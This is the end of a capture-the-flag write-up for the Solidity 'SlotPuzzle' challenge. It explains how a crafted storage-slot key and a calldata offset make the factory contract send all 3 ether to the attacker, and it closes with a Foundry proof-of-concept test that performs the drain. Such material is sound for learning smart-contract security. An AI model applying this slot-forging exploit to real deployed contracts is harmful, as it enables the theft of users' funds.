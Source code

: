 After that it will just add up the reference of `slotKey` in memory and `offset` and use that as the offset for calldataload to load a value in calldata to `slot`, which will be used for `getSlotValue()`, to get the slot we set correctly, I just use `console.log` to view the msg.data and find the offset needed

Finally it will iterate the `recipients` struct array and send us 1 ether for 3 times and we will get all 3 ethers in total and the challenge is solved

## Proof of concept

### Foundry test

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.17;

import "forge-std/Test.sol";

import {SlotPuzzle} from "src/SlotPuzzle.sol";
import {SlotPuzzleFactory} from "src/SlotPuzzleFactory.sol";
import {Parameters,Recipients} from "src/interface/ISlotPuzzleFactory.sol";


contract SlotPuzzleTest is Test {
    SlotPuzzle public slotPuzzle;
    SlotPuzzleFactory public slotPuzzleFactory;
    address hacker;

    function setUp() public {
        slotPuzzleFactory = new SlotPuzzleFactory{value: 3 ether}();
        hacker = makeAddr("hacker");
    }

    function testHack() public {
        vm.startPrank(hacker,hacker);
        assertEq(address(slotPuzzleFactory).balance, 3 ether, "weth contract should have 3 ether");

        //hack time
        Recipients memory recipient = Recipients(hacker, 1 ether);
        Recipients[] memory recipients = new Recipients[](3);
        recipients[0] = recipient;
        recipients[1] = recipient;
        recipients[2] = recipient;
        bytes32 slotKey = keccak256(abi.encode(keccak256(abi.encode(address(uint160(uint256(blockhash(block.number - block.basefee)))), keccak256(abi.encode(block.chainid, bytes32(uint256(keccak256(abi.encode(block.coinbase, keccak256(abi.encode(block.prevrandao, bytes32(uint256(keccak256(abi.encode(address(slotPuzzleFactory), keccak256(abi.encode(block.timestamp, bytes32(uint256(keccak256(abi.encode(block.number, keccak256(abi.encode(hacker, uint256(1)))))) + 1)))))) + 1)))))) + 1)))))));
        Parameters memory param = Parameters(3, 452, recipients, abi.encode(slotKey, uint256(0x124)));
        slotPuzzleFactory.deploy(param);        

        assertEq(address(slotPuzzleFactory).balance, 0, "weth contract should have 0 ether");
        assertEq(address(hacker).balance, 3 ether, "hacker should have 3 ether");

        
        vm.stopPrank();
    }
}
```
